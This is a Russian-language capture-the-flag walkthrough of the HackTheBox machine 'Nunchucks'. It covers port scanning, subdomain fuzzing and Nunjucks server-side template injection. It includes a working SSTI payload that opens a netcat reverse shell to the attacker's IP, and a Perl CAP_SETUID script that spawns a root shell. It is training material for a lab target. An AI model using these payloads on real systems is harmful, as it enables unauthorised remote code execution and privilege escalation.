 # Nunchucks (Linux, Easy)

![](<../../../../.gitbook/assets/1 (1) (1).png>)

### Содержание:

Nunchucks - легкая машина, название которой уже дает отсылку на шаблонизатор, а где шаблонизаторы - там SSTI. Просканировав порты, мы увидим ssh, http и https. Затем профаззим поддомены и найдем тот, который использует шаблонизатор Nunchucks. Загуглив для него вулны, найдем SSTI-эксплоит и получим реверс шелл. Затеем повысим наши привилегии в системе с помощью CAP\_SETUID perl'а.

### Сканируем порты с помощью nmap:

```bash
$ nmap -sC -sV 10.10.11.122 -oN nmap
```

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorse/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
```

![](../../../../.gitbook/assets/2.png)

Как бы я не пытался зарегистрироваться/залогиниться - не получалось. Фаззим поддомены:

```
$ gobuster vhost -u nunchucks.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 40
```

```
Found: store.nunchucks.htb
```

Нашли поддомен, вставляем его в наш конфиг:

```
$ sudo vim /etc/hosts
```

```
10.10.11.122 store.nunchucks.htb nunchucks.htb
```

### Эксплуатируем SSTI в Nunchucks:

![](<../../../../.gitbook/assets/3 (1).png>)

![](<../../../../.gitbook/assets/4 (1) (1) (1).png>)

На поддомене есть `SSTI(Server Side Template Injection)` уязвимость. Дальше `{% raw %}{{7*7}}{% endraw %}` продвинуться не удавалось, но имя машины дает некоторый хинт. `Nunjucks` - это шаблонизатор для `Jinja2`, используемый для разработки веб-приложений на веб-фреймворках `Node.js`, таких как `Express` или `Connect`. Найдя [пэйлоад](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine), пытаемся его эксплуатировать:

```django
{% raw %}{{range.constructor("return global.process.mainModule.require('fs')")()}}{% endraw %}
```

![](<../../../../.gitbook/assets/5 (1) (1).png>)

Чтобы эксплуатировать `RCE`, нужно поставить nc и запустить пэйлоад:

```
$ nc -nlvp 9999
```

Запрос с пэйлоадом в email:

```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=2RciWC895_oUpc9MqIt9QIx1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 189
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close
{
    "email":"{% raw %}{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.36 9999 >/tmp/f')\")()}}{% endraw %}"
}
```

![](<../../../../.gitbook/assets/6 (1).png>)

### Повышаем привилегии с помощью CAP\_SETUID + Perl

Для того, чтобы просканировать систему на уязвимости и мисконфиги, нужно:

* Скачать linpeas к себе:

```
$ wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```

* Поднять python-сервер:

```
$ python3 -m http.server
```

Кстати, чтобы узнать свой локальный IP-адрес в VPN можно воспользоваться утилитой ip(ваш IP должен соответствовать интерфейсу tun0):

```
$ ip r | grep tun0
```

```
10.10.16.0/23 dev tun0 proto kernel scope link src 10.10.16.36
```

* На машину, которую нужно проверить, скачиваем linpeas с нашего веб-сервера и запускаем:

```
$ wget 10.10.16.36:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

![](../../../../.gitbook/assets/7.png)

Linpeas запустился и очень много строк про конфиги машины, нам же нужна только эта строка:

![](../../../../.gitbook/assets/8.png)

Тут и содержится уязвимость(CAP\_SETUID): setuid и setgid являются флагами прав доступа в Unix, которые разрешают пользователям запускать исполняемые файлы с правами владельца или группы исполняемого файла. То есть можно без привилегий поменять себе идентификатор(uid) и стать рутом(у рута uid=0). Но это все можно сделать в одну команду и одной строкой, так как тут есть защита AppArmor. Поэтому нужно создать отдельный файл и записать в него вредоносный код:

```
$ touch exploit.pl
$ echo "#!/usr/bin/perl" >> exploit.pl
$ echo "use POSIX qw(setuid);" >> exploit.pl
$ echo "POSIX::setuid(0);" >> exploit.pl
$ echo 'exec "/bin/sh";' >> exploit.pl
$ chmod +x exploit.pl
```

![](<../../../../.gitbook/assets/9 (1).png>)
